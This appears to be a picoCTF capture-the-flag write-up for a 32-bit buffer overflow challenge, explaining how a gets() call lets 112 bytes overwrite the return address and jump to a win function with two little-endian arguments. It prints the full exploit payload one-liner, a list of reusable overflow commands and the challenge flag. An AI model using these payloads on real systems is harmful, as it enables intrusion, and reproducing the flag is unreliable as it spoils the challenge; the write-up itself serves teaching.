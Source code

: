 # Problem
Alright, this time you'll need to control some arguments. Can you get the flag from this program?

# Solution
There is a dangrous gets() function in this program; you are able to overflow it enough to set a new return address. The buffer for the gets() is 100, so to overflow, it took 112 A's, here's the command to overflow and get to the return address: python -c "print('A'*112 + '\xcb\x85\x04\x08')". Without a flag.txt we will receive a "contact admins if you're on the shell server", since we are doing this locally, we need a flag.txt file of our own. Once we make a flag.txt file and run the exe with the command above, we get another segfault. If we take a look at the C code provided, the win function has a little if statement to check if our first and second argument are not equal to a given string; 0xDEADBEEF,0xDEADC0DE, if arg1 and arg2 are not equal we will return. So we need to supply arg1 and arg2 in little endian form and concatenate it to the rest of our python cmd, we also need to add 4 chars between the win return address and the first and second argumen.  python -c "print('A'*112 + '\xcb\x85\x04\x08' + 'CCCC' + '\xef\xbe\xad\xde' + '\xde\xc0\xad\xde')" | ./vuln

# Commands
**Useful commands for future buffer overflow challenges**  
python -c "print('A'*112 + '\xcb\x85\x04\x08')"  
arg 1 = 0xDEADBEEF (\xef\xbe\xad\xde)  
arg 2 = 0xDEADC0DE (\xde\xc0\xad\xde)  
readelf -s vuln (display all functions)  
dmesg | tail (great way to quickly figure out what's happening in a exe)  

# Flag
picoCTF{addr3ss3s_ar3_3asy30723282}


